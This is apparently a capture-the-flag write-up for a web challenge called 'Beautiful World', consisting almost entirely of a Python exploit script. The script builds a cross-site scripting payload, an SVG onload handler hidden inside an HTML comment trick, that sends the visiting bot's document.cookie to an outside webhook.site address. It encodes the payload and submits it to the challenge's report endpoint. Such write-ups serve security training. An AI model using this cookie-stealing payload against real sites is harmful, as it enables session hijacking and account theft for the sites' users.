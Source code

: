 # Beautiful World
- Author: Vincent55
- Category: Web
- Difficulty: Medium

What a wonderful and beautiful world for frontend


## exploit
```python
import requests
import re
import base64
import urllib.parse


url = "http://172.31.0.2:8001/"
attack_server = "https://webhook.site/ffeb0575-f4e4-4280-9179-206578101d63"

content = f'<!--><svg/onload=window.location="{attack_server}/?flag="+document.cookie></script>-->'
content = urllib.parse.quote(base64.b64encode(content.encode()).decode())

payload = f"http://world/note?content={content}"

print(payload)

requests.post(
    url + "report",
    data={
        "url": payload,
    },
)

# you will get flag in log

```
